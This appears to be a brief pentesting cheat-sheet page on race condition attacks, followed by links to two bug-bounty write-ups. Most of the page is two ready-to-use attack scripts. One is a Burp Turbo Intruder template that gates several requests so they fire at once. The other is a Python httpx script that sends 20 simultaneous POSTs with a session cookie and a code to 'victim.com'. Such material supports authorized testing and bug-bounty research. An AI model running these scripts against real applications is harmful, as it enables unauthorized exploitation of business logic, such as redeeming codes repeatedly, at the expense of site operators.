 # Race Condition

- Burp ( Turbo Intruder )
    
    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)
    
        request1 = '''<YOUR-POST-REQUEST>'''
    
        request2 = '''<YOUR-GET-REQUEST>'''
    
        # the 'gate' argument blocks the final byte of each request until openGate is invoked
        engine.queue(request1, gate='race1')
        for x in range(5):
            engine.queue(request2, gate='race1')
    
        # wait until every 'race1' tagged request is ready
        # then send the final byte of each request
        # (this method is non-blocking, just like queue)
        engine.openGate('race1')
    
        engine.complete(timeout=60)
    
    def handleResponse(req, interesting):
        table.add(req)
    ```
    

```jsx
import asyncio
import httpx

async def use_code(client):
    resp = await client.post(f'http://victim.com', cookies={"session": "asdasdasd"}, data={"code": "123123123"})
    return resp.text

async def main():
    async with httpx.AsyncClient() as client:
        tasks = []
        for _ in range(20): 
            tasks.append(asyncio.ensure_future(use_code(client)))
        
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        for r in results:
            print(r)
        
        await asyncio.sleep(0.5)
    print(results)

asyncio.run(main())
```

[Easy 2000$ Race Condition](https://medium.com/@_deshine_/easy-2000-race-condition-b4d093c9bc3c)

[How Race Condition helped me break Business Logic of the application](https://web.archive.org/web/20221224215757/https://rashahacks.com/how-race-condition-helped-me-break-business-logic/)